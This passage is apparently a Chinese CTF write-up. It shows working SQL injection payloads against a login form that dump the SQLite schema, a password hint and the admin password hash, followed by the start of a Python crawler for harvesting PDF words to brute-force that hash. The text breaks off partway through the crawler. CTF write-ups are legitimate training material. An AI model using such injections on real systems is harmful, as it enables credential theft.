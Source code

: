 接下来报列

> usr=admin' union select 1,sql from sqlite_master where type='table' limit 0,1--&pw=1

结果：

> name= CREATE TABLE Users(id int primary key,name varchar(255),password varchar(255),hint varchar(255))

看hint

> usr=2' union select 1,hint from Users where name='admin'--&pw=1

结果

> name= my fav word in my fav paper?!;

获得admin密码

> usr=2' union select 1,password from Users where name='admin'--&pw=1

结果

> 3fab54a50e770d830c0416df817567662a9dc85c

cmd5查不到，行吧，要去paper里找。一个一个找和一个一个单词去试，这题可能明年才做得出来。那就写个爬虫脚本和解析pdf单词爆破密码的脚本

爬虫脚本

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# @Time    : 2019/5/1 11:19
# @Author  : wulasite
# @Email   : wulasite@gmail.com
# @File    : python.py
# @Software: PyCharm

import pybloom_live
import queue
import requests
import re
from urllib.parse import urljoin
from function import download_pdf,get_ext


target_url = 'http://111.198.29.45:45002/1/index.html'
q = queue.Queue()
# init the queue
q.put(target_url)
# bloom filter init
f = pybloom_live.BloomFilter(capacity=1000, error_rate=0.001)

# 布隆过滤器 去除重复url
def bloom(base_url, urls):
    for i in urls:
        new_url = urljoin(base_url, i)
        if not f.add(new_url):
            if get_ext(new_url) == '.pdf':
                download_pdf(new_url)
            else:
                q.put(new_url)



# 获取网页的所有内容
def get_content_urls(url):
    try:
        r = requests.get(url, timeout=15)
        text = r.text
```